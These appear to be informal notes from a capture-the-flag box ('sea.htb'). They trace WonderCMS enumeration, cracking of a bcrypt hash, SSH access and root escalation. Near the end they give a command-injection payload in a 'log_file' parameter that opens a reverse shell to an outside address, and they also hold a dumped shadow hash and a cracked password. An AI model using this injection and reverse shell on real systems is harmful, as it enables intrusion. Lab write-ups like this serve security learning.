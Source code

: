 ___


*php here*
http://sea.htb/contact.php


there is <!---admin CSS---> comment so there must be some admin page here that i can't see

this is php website, I have a php cookie for my user, also other pages I get forbidden in


fuzzing:
dirs looks like nothing i can access
subdomains also nothing



*found this version for what???*
3.2.0



*wonder CMS bike theme* found it!!!
https://github.com/robiso/bike





"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",


this hash is escaped!!! bc its in json format had to remove the \ chars and the john runs it



*cracked pass*
?:mychemicalromance



*version*
[WonderCMS 3.4.2](https://wondercms.com)


*2 users*
drwxr-xr-x  4 amay amay 4.0K Aug  1  2024 amay
drwxr-x---  4 geo  geo  4.0K Aug  1  2024 geo


*ssh*
user: amay
pass: mychemicalromance

*need to get geo user enum amay as well*



*I get access denied on these*

tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:55733         0.0.0.0:*               LISTEN

google chrome in /opt

*port forward that shit + linpeas.sh*


*amay signs in localhost:8080*

# System Monitor(Developing)



===> *55737 is google chrome port* <- pretty sure this is what is clicking on my xss exploit (so i think no the way)

*that other port has this*
200      GET       20l       70w      687c http://localhost:55733/devtools/inspector.html
200      GET       17l       38w      865c http://localhost:55733/json



*can try to connect with chrome dev tools*
*nothing interesting on 8080 though.... and geo....


===> *this is a cron job for crome running daily in the machine*

*lrwxrwxrwx   1 root root   37 Jul 29  2024 google-chrome -> /opt/google/chrome/cron/google-chrome

but like running as root? <- can I escalate privs?



*check ig*
-rw-r--r-- 1 root root 807 Feb 25  2020 /etc/skel/.profile
-rw-r--r-- 1 amay amay 807 Feb 25  2020 /home/amay/.profile

-rw-r--r-- 1 root root 3771 Feb 25  2020 /etc/skel/.bashrc
-rw-r--r-- 1 amay amay 3771 Feb 25  2020 /home/amay/.bashrc




*backups dir what is this /snap/core20*
/snap/core20/2318/var/backups



Binary file /var/log/journal/bc3805e3e6b449d38bd0a698ebf1ae9c/user-1000.journal matches



# System Monitor(Developing)
 *this is prob running as root*





*system monitor running as root I can read any file but only 21 lines bruvs*
#21 lines




*how do i get geo -> can read any file but what file to read???*

system monitor is prob running from root files r there




mychemicalromance



adding +# on the parameter showed me full output uncut; i think comenting out the bash code of whaterver was coming after

+is space


*geo hash*

geo:$6$5mAIqOze4GJ4s9Zu$P3IgUSHlcCkKpDJ0862IgP5aqaNilEUZDGIm16FiWdxh1A5dfKjmwhMgp3xctHiHZVWGtmKY25cCrILanDPaG.:19934:0:99999:7:::


 *payload*
log_file=/etc/shadow+;/bin/bash+-c+"sh%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E23%2F443%200%3E%261";+#&analyze_log=/home/test_log.log


this got root shell


